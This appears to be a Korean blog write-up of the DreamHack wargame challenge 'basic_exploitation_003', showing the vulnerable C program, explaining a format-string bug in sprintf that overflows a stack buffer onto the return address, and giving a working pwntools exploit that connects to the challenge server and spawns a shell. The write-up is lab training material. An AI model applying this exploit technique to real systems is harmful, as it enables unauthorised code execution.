 ```yaml
---
title: "(DreamHack) Basic_exploitation_003"
date: 2021-03-05 05:24:00 -0400
categories: Security
---
```


## 풀이

이번 문제는 FSB와 BOF가 모두 사용된 문제이다.

``` C
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```
#### FSB
sprintf는 입력값의 길이에 대한 검사가 없이 사용되고 있으므로 FSB에 의해 익스플로잇될 수 있다. (앞으로는 sprintf_s를 애용하자)
#### BOF
sprintf를 통해 heap_buf에서 stack_buf의 내용을 바꾸는데 이때 main의 ret 값을 변조시켜 BOF를 일으킬 수 있다.
stack_buf와 ret 사이에 0x98 (stack_buf, *heap_buf) + 0x4 (sfp)만큼의 공간이 존재한다.

``` Python
from pwn import *

p = remote("host1.dreamhack.games", 24316)
elf = ELF("./basic_exploitation_003")

get_shell = elf.symbols['get_shell']

payload = "%156d"
payload += p32(get_shell)

p.send(payload)
p.interactive()
```

위 코드를 통해 쉘을 실행시킬 수 있다.
![image](https://user-images.githubusercontent.com/24788751/110102904-a93a7f80-7de8-11eb-9680-9517a32b104e.png)